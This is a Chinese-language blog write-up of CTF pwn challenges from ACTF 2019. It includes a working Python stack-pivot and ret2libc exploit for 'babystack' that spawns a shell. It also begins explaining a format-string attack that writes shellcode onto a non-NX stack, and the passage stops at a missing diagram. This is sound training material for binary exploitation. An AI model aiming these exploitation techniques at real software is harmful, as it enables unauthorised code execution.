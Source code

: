 ```yaml
---
title: 近期进阶 Pwn 合集
date: 2020-03-01 14:10:54
tags:
  - 整数溢出
  - 栈漏洞
  - fsb
  - 堆漏洞
categories:
  - 二进制安全
---
```


难题都没有做出来。题目来自 ACTF 2019、GYCTF 2019、VNCTF 2020。



## ACTF 2019

### babystack

只能溢出 0x10 字节，因此使用栈迁移。这题的迁移比较简单，题目给了栈地址，并且只需要迁移一次。

```python
leave = 0x400a18
pop_rdi = 0x400ad3
sla('?\n',str(0xe0))
ru('saved at 0x')
addr = int(ru('\n'),16)
# ebp2,payload,padding,fake ebp,leave_ret
payload = flat('a'*8,pop_rdi,elf.got['puts'],elf.plt['puts'],0x4008f6).ljust(0xd0,'a') + flat(addr,leave)
sa('?\n',payload)

ru('~\n')
puts = uu64(r(6))
system,binsh = ret2libc(puts,'puts')

sla('?\n',str(0xe0))
ru('saved at 0x')
addr = int(ru('\n'),16)
payload = flat('a'*8,pop_rdi,binsh,system).ljust(0xd0,'a') + flat(addr,leave)
sa('?\n',payload)
```

### 一个复读机

很容易发现格式化字符串漏洞，首先测出偏移为 7 处是返回地址，我们往这里写地址即可。写什么地址呢？程序没有开启 NX 保护，因此可以先布置 shellcode，然后写 shellcode 地址。

但是我们只能在栈上布置 shellcode，而栈地址以 `0xff` 开头，如果直接写入 4 字节地址，那么需要输出非常长的字符串才行，非常耗时。因此我们尝试分 2 次写入，每次 2 字节。

从 [这里](https://www.csuaurora.org/ACTF_2019/) 盗取了一张不错的图示：
